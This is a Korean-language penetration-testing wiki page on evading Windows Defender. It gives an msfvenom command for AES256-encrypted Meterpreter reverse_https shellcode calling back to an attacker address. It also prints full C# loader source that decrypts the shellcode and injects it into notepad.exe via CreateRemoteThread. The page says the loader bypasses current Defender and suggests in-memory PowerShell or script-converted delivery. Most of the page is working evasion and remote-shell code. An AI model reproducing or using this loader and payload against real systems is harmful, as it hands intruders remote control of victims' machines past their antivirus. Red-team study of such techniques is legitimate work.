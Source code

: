 # 간단 디펜더 우회

윈도우 10과 윈도우 11의 워크스테이션용 디펜더는 날이 갈수록 그 성능이 좋아지고 있다. EDR 솔루션들 만큼은 아니지만, 시중에 나와있는 평범한 AV 솔루션들보다 그 성능이 더 좋아보일 정도다. 모의해킹을 진행하다보면 시간이 적어 빨리 빨리 일을 진행해야하기 때문에 매번 페이로드를 새롭게 생성할 시간적 여유가 없다. 이 페이지에서는 간단하게 워크스테이션용 디펜더 (ATP는 아니다)를 커스텀 로더 (Custom Loader)를 이용해 우외하는 방법에 대해서 알아본다.&#x20;

실습에서 만들 커스텀 로더는 AES256으로 암호화된 쉘코드를 런타임 중 복호화하고, 그 뒤 전통적인 `CreateRemoteThread` 프로세스 인젝션으로 미터프리터 (Meterpreter) 쉘코드를 실행할 것이다.&#x20;

### 쉘코드&#x20;

쉘코드는 미터프리터로, msfvenom을 이용해 만든다. 일반적인 쉘코드와는 다르게 암호화 플래그를 사용한다. AES256-CBC 암호화에는 32바이트 (256비트) 암호화 키와 16바이트 (128비트) IV를 사용하기 때문에, 이를 bash를 이용해 먼저 구한 뒤 쉘코드를 생성한다.&#x20;

```
# 키 생성 
bash -c 'echo $RANDOM | md5sum | head -c 32; echo;'

# IV 생성 
bash -c 'echo $RANDOM | md5sum | head -c 16; echo;'

# 키와 IV를 바탕으로 예제 쉘코드 생성
msfvenom -p windows/x64/meterpreter/reverse_https --encrypt aes256 --encrypt-key 9db7ad8ace353ab54a812373d7c0a01f --encrypt-iv 3a9d7c0cf4ac0431 lhost=192.168.40.182 lport=443 exitfunc=thread -f csharp -v bufEncrypted
```

이제 이 쉘코드를 커스텀 로더에 집어넣은 뒤, 프로세스 인젝션을 통해 실행시켜보자.&#x20;

### 커스텀 로더 (Loader)&#x20;

기본적으로 msfvenom으로 만드는 미터프리터 (Meterpreter)의 경우에는 `.exe` 나 `.ps1` 등의 페이로드가 이미 디펜더에 시그니쳐 되어있다. 때문에 msfvenom 이 만들어주는 페이로드를 사용하지 않고, 간단하게 커스텀 로더를 만든다.&#x20;

이 실습에서는 가장 간단하게 아무런 난독화를 거치지 않고, 공개된지 매우 오래된 CreateRemoteThread 기법을 사용한 커스텀 로더를 제작한다.&#x20;

<details>

<summary>EncryptedCreateRemoteThread.cs</summary>

```
using System;
using System.Diagnostics;
using System.IO;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;
using System.Threading;

namespace EncryptCreateRemoteThread
{
    class Program
    {
        public static byte[] Aes256Decrypt(byte[] data, byte[] key, byte[] iv)
        {
            using (var aes = Aes.Create())
            {
                aes.KeySize = 128;
                aes.BlockSize = 128;
                aes.Padding = PaddingMode.Zeros;

                aes.Key = key;
                aes.IV = iv;

                using (var decryptor = aes.CreateDecryptor(aes.Key, aes.IV))
                {
                    return PerformCryptography(data, decryptor);
                }
            }
        }

        private static byte[] PerformCryptography(byte[] data, ICryptoTransform cryptoTransform)
        {
            using (var ms = new MemoryStream())
            using (var cryptoStream = new CryptoStream(ms, cryptoTransform, CryptoStreamMode.Write))
            {
                cryptoStream.Write(data, 0, data.Length);
                cryptoStream.FlushFinalBlock();

                return ms.ToArray();
            }
        }

        static void Main(string[] args)
        {
            // msfvenom -p windows/x64/meterpreter/reverse_https --encrypt aes256 --encrypt-key 9db7ad8ace353ab54a812373d7c0a01f --encrypt-iv 3a9d7c0cf4ac0431 lhost=192.168.40.182 lport=443 exitfunc=thread -f csharp -v bufEncrypted
            byte[] bufEncrypted = new byte[624] { <shellcode...> };

            string key = "9db7ad8ace353ab54a812373d7c0a01f";
            string iv = "3a9d7c0cf4ac0431";
            byte[] buf = Aes256Decrypt(bufEncrypted, Encoding.ASCII.GetBytes(key), Encoding.ASCII.GetBytes(iv));

            var process = Process.Start(@"C:\windows\system32\notepad.exe");
            var pid = process.Id;

            IntPtr hProc = OpenProcess(ProcessAccessFlags.All, false, pid);
            IntPtr pAlloc = VirtualAllocEx(hProc, IntPtr.Zero, (uint)buf.Length, (uint)(AllocationType.Commit | AllocationType.Reserve), (uint)MemoryProtection.ReadWrite);
            bool rWPM = WriteProcessMemory(hProc, pAlloc, buf, (uint)buf.Length, out IntPtr byteWritten);
            bool rVPE = VirtualProtectEx(hProc, pAlloc, (uint)buf.Length, (uint)MemoryProtection.ExecuteRead, out uint lpflOldProtect);
            IntPtr hThread = CreateRemoteThread(hProc, IntPtr.Zero, (uint)0, pAlloc, IntPtr.Zero, (uint)0, out IntPtr lpThreadId);


            /*Console.WriteLine("[+] Process handle = {0}", hProc.ToInt64().ToString("x2"));
            Console.WriteLine("[+] Allocated memory address = 0x{0}", pAlloc.ToInt64().ToString("x2"));
            Console.WriteLine("[+] WriteProcessMemory result = {0}", rWPM.ToString());
            Console.WriteLine("[+] VirtualProtectExe result = {0}", rVPE.ToString());
            Console.WriteLine("[+] Thread handle = {0}", hThread.ToInt64().ToString("x2"));*/
        }

        //  ============================ PInvoke - Ignore me ============================

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern IntPtr OpenProcess(ProcessAccessFlags processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern bool VirtualProtectEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out IntPtr lpThreadId);

        [Flags]
        public enum ProcessAccessFlags : uint
        {
            All = 0x001F0FFF,
            Terminate = 0x00000001,
            CreateThread = 0x00000002,
            VirtualMemoryOperation = 0x00000008,
            VirtualMemoryRead = 0x00000010,
            VirtualMemoryWrite = 0x00000020,
            DuplicateHandle = 0x00000040,
            CreateProcess = 0x000000080,
            SetQuota = 0x00000100,
            SetInformation = 0x00000200,
            QueryInformation = 0x00000400,
            QueryLimitedInformation = 0x00001000,
            Synchronize = 0x00100000
        }

        [Flags]
        public enum AllocationType
        {
            Commit = 0x1000,
            Reserve = 0x2000,
            Decommit = 0x4000,
            Release = 0x8000,
            Reset = 0x80000,
            Physical = 0x400000,
            TopDown = 0x100000,
            WriteWatch = 0x200000,
            LargePages = 0x20000000
        }

        [Flags]
        public enum MemoryProtection
        {
            Execute = 0x10,
            ExecuteRead = 0x20,
            ExecuteReadWrite = 0x40,
            ExecuteWriteCopy = 0x80,
            NoAccess = 0x01,
            ReadOnly = 0x02,
            ReadWrite = 0x04,
            WriteCopy = 0x08,
            GuardModifierflag = 0x100,
            NoCacheModifierflag = 0x200,
            WriteCombineModifierflag = 0x400
        }
    }
}
```

</details>

PInvoke를 제외한다면 `OpenProcess -> VirtualAllocEx -> WriteProcessMemory -> VirtualProtectEx -> CreateRemoteThread` 를 사용하는 전통적인 프로세스 인젝션 로더다. 이와 관련된 기법은 이 [CreateRemoteThread 페이지](프로세스-인젝션/createremotethread.md)에서 서술했다.&#x20;

`Main()` 함수를 보다보면 안에 `bufEncrypted` 변수가 있다. 여기에는 위에서 만든 쉘코드를 집어넣어주면 된다.&#x20;

PDB를 제거한 뒤, x64로 컴파일한다. 20년이 넘은 `CreateRemoteThread` 기법에 아무런 난독화를 거치지 않아도 정적분석은 나름 괜찮게 우회하는 편이다. 물론 왠만한 EDR 솔루션들은 위 페이로드를 실행하는 순간 바로 잡아낼 것이다. (디펜더 우회가 아니라 EDR 솔루션 우회는 direct syscall 과 Call Stack Spoofing 등의 기법을 이용하는데, 이에 대해서는 다른 페이지에서 서술한다.)

![https://www.virustotal.com/gui/file/2c23e1512d8e928202237d86f98145f30d544e78f1ed756a497d3482a4ffa262/detection](<../.gitbook/assets/image (15).png>)



최신 EDR 솔루션들을 우회하기는 어렵겠지만, 가장 최신 버전의 디펜더는 우회하는 모습을 볼 수 있다.&#x20;

![](../.gitbook/assets/custom-loader.gif)

C# 으로 만든 페이로드기 때문에 [파워쉘-C# 페이지](../실행/파워쉘/시샵-실행.md)에서 서술했던 대로 메모리상에서 파워쉘을 통해 실행시킬 수도 있다. 혹은 [DotNettoJS 페이지](../초기침투/피싱-첨부파일/dotnettojs.md)에서 서술했던 대로 JScript나 VBScript 등으로 변환할 수도 있다.&#x20;
